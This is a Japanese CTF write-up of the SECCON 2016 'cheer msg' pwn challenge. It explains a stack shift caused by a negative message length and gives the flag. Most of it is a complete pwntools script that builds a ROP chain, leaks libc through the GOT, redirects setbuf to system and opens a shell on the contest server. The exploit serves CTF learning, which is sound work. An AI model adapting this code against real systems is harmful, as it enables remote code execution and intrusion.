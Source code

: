 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/seccon-2016-online-cheermsg/
  - /blog/2016/12/16/seccon-2016-online-cheermsg/
date: "2016-12-16T21:02:05+09:00"
tags: [ "ctf", "writeup", "pwn", "rop" ]
"target_url": [ "https://score-quals.seccon.jp/question/3093a2f4584782e888feb5cf243d982dd3211e2b" ]
---
```


# SECCON 2016 Online CTF: cheer msg

本番でやりかけたら影白さんが先に解いてくれてそのままになってた。
なのでpwn会で解いた。後輩らが村人Bで苦しんでるのを眺めながら解いて$3$時間かかった。もうちょっと速くしたい。

## problem

$32$bit。入力が$3$箇所。

``` sh
$ ./cheer_msg
Hello, I'm Nao.
Give me your cheering messages :)

Message Length >> 8  
Message >> Hello

Oops! I forgot to ask your name...
Can you tell me your name?

Name >> Yu

Thank you Yu!
Message : Hello
```

## solution

Message Lengthに指定した量だけ`main`関数内のlocal変数として領域が確保され、`message`関数内でこれに読み書きがされる。
ここで負数を指定するとMessage部分での読み込みは行われなくなるが、stackがずれることにより、Nameの読み込みで戻り先addressを書き換えることができる。
$-144$を指定するとちょうどNameの先頭に戻り先addressが来る。

後は適当にROP。`SECCON{N40.T_15_ju571c3}`。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='cheermsg.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=30527, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--libc', default='libc-2.19.so-c4dc1270c1449536ab2efbbe7053231f1a776368')
args = parser.parse_args()
context.log_level = args.log_level

elf = ELF('./cheer_msg')
libc = ELF(args.libc)
bss = 0x804a040
buf = bss + 0x300
thankyou = 0x804887e # "Thank you %s!\n"
pop_pop_ret = 0x080487ae # pop edi ; pop ebp ; ret

payload = ''
payload += p32(elf.plt['printf'])
payload += p32(pop_pop_ret)
payload += p32(thankyou)
payload += p32(elf.got['setbuf'])
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(elf.got['setbuf'])
payload += p32(100)
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(buf)
payload += p32(100)
payload += p32(elf.plt['setbuf'])
payload += 'CCCC'
payload += p32(buf)

p = remote(args.host, args.port)
p.recvuntil('Message Length >> ')
p.sendline('-144')
p.recvuntil('Message >> ')
p.recvuntil('Name >> ')
p.sendline(payload)
p.recvuntil('Thank you ')
p.recvuntil('Thank you ')
setbuf = u32(p.recv(4))
system = setbuf - libc.symbols['setbuf'] + libc.symbols['system']
log.info('setbuf: %#x', setbuf)
log.info('system: %#x', system)
time.sleep(0.3)
p.sendline(p32(system))
time.sleep(0.3)
p.sendline('/bin/sh\0')
time.sleep(1)
p.sendline('id')
p.interactive()
```
